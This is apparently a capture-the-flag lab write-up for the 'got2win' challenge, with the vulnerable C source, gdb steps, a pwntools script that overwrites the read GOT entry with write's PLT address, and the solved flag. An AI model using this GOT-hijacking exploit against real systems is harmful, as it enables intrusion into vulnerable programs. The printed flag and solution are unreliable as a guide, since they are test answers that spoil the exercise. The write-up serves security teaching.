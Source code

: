 # Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`
## GOT Background
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4?t=4423)
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA?t=6017)

## Original Code
:::spoiler Original Code
```cpp!=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{%s}... Just kidding :)\n", flag);

    return 0;
}
```
:::
* The program read the flag first at line `13~16`
* At line `19~22`, it allow user input an address and its value
* At line `25`, you may think it's weird that it use `stdout` as `read` function's parameter.
* In addition, it doesn't have buffer overflow, so that we can not use the technique before to get flag.
* Thus, our perspective is we can <font color="FF0000">overlap the `read GOT` by `write plt`</font>, so that it can execute write function:
`int nr=write(1, flag, 0x30);`
## Exploit
* First, we should find the address of `read GOT` and `write plt`
    ```bash!
    gdb chal
    b *main()
    ni    # Until write function
    si
    ```
    ![reference link](https://imgur.com/LFfc5fS.png)
* Then we wanna know `read GOT` address
![](https://imgur.com/hygnwEQ.png)
* My exploit is:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r=remote('edu-ctf.zoolab.org', 10004)
    context.terminal = ['tmux', 'splitw', '-h']

    read_got = 0x404038
    write_plt = 0x4010c0

    r.sendlineafter('Overwrite addr: ', str(read_got))
    r.sendafter('Overwrite 8 bytes value: ', p64(write_plt))

    r.interactive()
    ```
    Then, we can use `read` function as `write` function to get flag  <font color="FF0000">`FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}`</font>

## Reference
[PWN week1](https://youtu.be/ktoVQB99Gj4)